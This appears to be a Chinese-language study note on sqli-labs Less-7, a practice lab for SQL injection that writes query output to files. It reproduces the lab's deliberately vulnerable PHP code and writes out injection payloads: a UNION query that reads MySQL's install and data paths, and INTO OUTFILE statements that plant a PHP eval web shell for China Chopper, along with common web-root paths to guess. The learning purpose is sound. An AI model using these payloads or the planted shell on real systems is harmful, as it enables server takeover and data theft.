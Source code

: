```yaml
---
title: sqli-labs学习笔记_07
categories:
- sqli-labs
tags:
- sql注入
updated: 2018-06-07
---
```


**第七节： Dump into outfile - String** （导出文件GET字符型注入）

 



可以在你的php文件中加上一句话:echo "你的sql语句是：

```php+HTML
echo "你的sql语句是：".$sql."<br>";
```

代码如下：

~~~php+HTML
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-7 Dump into Outfile</title>

</head>

<body bgcolor="#000000">

<div style=" margin-top:60px;color:#FFF; font-size:23px; text-align:center">Welcome&nbsp;&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br>
<font size="3" color="#FFFF00">


<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables
if(isset($_GET['id']))
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 


$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";
echo "你的sql语句是：".$sql."<br>";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font color= "#FFFF00">';	
  	echo 'You are in.... Use outfile......';
  	echo "<br>";
  	echo "</font>";
  	}
	else 
	{
	echo '<font color= "#FFFF00">';
	echo 'You have an error in your SQL syntax';
	//print_r(mysql_error());
	echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

?>
</font> </div></br></br></br><center>
<img src="../images/Less-7.jpg" /></center>
</body>
</html>

~~~



 当使用http://127.0.0.1/Less-7/?id=1的时候：

<img src="{{ site.url }}/assets//blog_images/sqli-labs_07_01.png" />

​          You are in.... Use outfile...... 

这次什么东西都没有出来

尝试加  '    http://127.0.0.1/Less-7/?id=1'   然后回显显示有语法错误

<img src="{{ site.url }}/assets//blog_images/sqli-labs_07_02.png" />

导出到文件就是可以将查询结果导出到一个文件中，如常见的将一句话木马导出到一个php文件中，sqlmap中也有导出一句话和一个文件上传的页面

常用的语句是：  select "<?php @eval($_POST['crow']);?>" into outfile "XXX\test.php" ，当这里要获取到网站的在系统中的具体路径（绝对路径） 密码就是crow

这个要怎么获取呢，根据系统和数据库猜测，如winserver的iis默认路径是c:/inetpub/wwwroot/，这好像说偏了，这是asp的，但知道也好

linux的nginx一般是/usr/local/nginx/html，/home/wwwroot/default，/usr/share/nginx，/var/www/htm等

apache 就/var/www/htm，/var/www/html/htdocs

**下面给一个很有可能获取得到的方法，（因为less7不输出信息，先从less获取信息）**

首先介绍两个可以说是函数，还是变量的东西

@@datadir 读取数据库路径
@@basedir MYSQL 获取安装路径（转）

构造：http://127.0.0.1/Less-3/?id=1456') union select 1,@@basedir,@@datadir %23

<img src="{{ site.url }}/assets//blog_images/sqli-labs_07_03.png" />



outfile的固定结构是：select A into outfile B，这里的B通常是一个文件路径，A可以是文本内容（小马），也可以是数据库信息 

使用中国菜刀的连接：

```
http://127.0.0.1/Less-7/?id=-1')) union select 1,'2','<?php @eval($_POST["1"]);?>' into outfile 'D:\\phpstudy\\PHPTutorial\\WWW\\Less-7\\crow.txt' %23  
```

不清楚原因是什么，我就是做不出来，大佬说可能是我phpstudy配置的问题，但是看网上的很多人都是可以用这个方法做出来的，好遗憾！以后再做吧！！！

(个人学习笔记，部分转自互联网)













 








